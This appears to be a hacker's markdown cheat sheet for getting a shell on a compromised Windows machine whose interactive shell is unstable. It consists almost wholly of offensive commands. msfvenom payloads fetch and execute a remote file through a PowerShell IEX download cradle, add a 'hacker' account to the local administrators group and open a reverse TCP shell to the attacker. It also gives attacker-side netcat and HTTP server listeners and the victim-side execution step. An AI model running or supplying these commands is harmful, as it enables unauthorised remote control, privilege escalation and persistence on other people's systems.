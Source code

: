# Windows Non-interactive Unstable Shell Upgrade Stuff
sometimes you land on a windows machine and you just can't get an interactive shell going! Here are some ways to work with it/work around it!

## 🎃 MSFVenom windows/exec

For when you have a super unstable connection! So long as you can execute, it should send you back a revshell!

## 😎 Payload

make a user

```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/pay.exe')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators hacker /add" -f exe > pay.exe
```

give me a revshell
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/pay.exe')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f exe > pay.exe

```


## ⭐ Attacker
```
nc -lvnp 4444
```
```
python -m http.server
```


##🌙 Victim
```
.\pay.exe
```
